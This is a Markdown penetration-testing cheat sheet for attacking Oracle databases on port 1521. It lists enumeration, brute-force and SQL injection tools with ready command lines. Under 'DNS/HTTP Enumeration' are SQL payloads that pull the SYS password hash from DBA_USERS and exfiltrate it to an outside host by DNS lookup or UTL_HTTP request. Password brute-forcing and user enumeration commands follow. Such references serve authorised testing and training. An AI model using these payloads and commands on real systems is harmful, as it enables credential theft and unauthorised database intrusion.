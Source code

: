 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Oracle (Port 1521)
### References
* SQL Cheatsheets
	* [http://ha.ckers.org/sqlinjection](http://ha.ckers.org/sqlinjection)
	* [http://ferruh.mavituna.com/sql-injection-cheatsheet-oku/](http://ferruh.mavituna.com/sql-injection-cheatsheet-oku/)
	* [http://www.0x000000.com/?i=14](http://www.0x000000.com/?i=14)
	* [http://pentestmonkey.net/](http://pentestmonkey.net/)

### Attack Guide
* Oracle Enumeration
	* oracsec
	* Repscan
	* Sidguess
	* Scuba
	* DNS/HTTP Enumeration

		SQL> SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT PASSWORD FROM DBA_USERS WHERE US ERNAME='SYS')||'.vulnerabilityassessment.co.uk') FROM DUAL; SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT PASSWORD FROM DBA_USERS WHERE USERNAM E='SYS')||'.vulnerabilityassessment.co.uk') FROM DUAL
		SQL> select utl_http.request('http://gladius:5500/'||(SELECT PASSWORD FROM DBA_USERS WHERE USERNAME='SYS')) from dual;
	* WinSID
	* Oracle default password list
	* TNSVer
	
			tnsver host [port]
	* TCP Scan
	* Oracle TNSLSNR
		Will respond to: [ping] [version] [status] [service] [change_password] [help] [reload] [save_config] [set log_directory] [set display_mode] [set log_file] [show] [spawn] [stop]
	* TNSCmd

			perl tnscmd.pl -h ip_address
			perl tnscmd.pl version -h ip_address
			perl tnscmd.pl status -h ip_address
			perl tnscmd.pl -h ip_address --cmdsize (40 - 200)
	* LSNrCheck
	* Oracle Security Check (needs credentials)
	* OAT

			sh opwg.sh -s ip_address
			opwg.bat -s ip_address
			sh oquery.sh -s ip_address -u username -p password -d SID OR c:\oquery -s ip_address -u username -p password -d SID
	* OScanner

			sh oscanner.sh -s ip_address
			oscanner.exe -s ip_address
			sh reportviewer.sh oscanner_saved_file.xml
			reportviewer.exe oscanner_saved_file.xml
	* NGS Squirrel for Oracle
	* Service Register

			Service-register.exe ip_address
	* PLSQL Scanner 2008
* Oracle Brute Force
	* OAK

			ora-getsid hostname port sid_dictionary_list
			ora-auth-alter-session host port sid username password sql
			ora-brutesid host port start
			ora-pwdbrute host port sid username password-file
			ora-userenum host port sid userlistfile
			ora-ver -e (-f -l -a) host port
	* breakable (Targets Application Server Port)
   
			breakable.exe host url [port] [v]host ip_address of the Oracle Portal Serverurl PATH_INFO i.e. /pls/orassoport TCP port Oracle Portal Server is serving pages fromv verbose
	* SQLInjector (Targets Application Server Port)

			sqlinjector -t ip_address -a database -f query.txt -p 80 -gc 200 -ec 500 -k NGS SOFTWARE -gt SQUIRREL
			sqlinjector.exe -t ip_address -p 7777 -a where -gc 200 -ec 404 -qf q.txt -f plsql.txt -s oracle
	* Check Password
	* orabf

			orabf [hash]:[username] [options]
	* thc-orakel
		* Cracker
		* Client
		* Crypto
	* DBVisualisor
		* Sql scripts from pentest.co.uk
		* Manual sql input of previously reported vulnerabilties
* Oracle Reference Material
	* Understanding SQL Injection
	* SQL Injection walkthrough
	* SQL Injection by example
	* Advanced SQL Injection in Oracle databases
	* Blind SQL Injection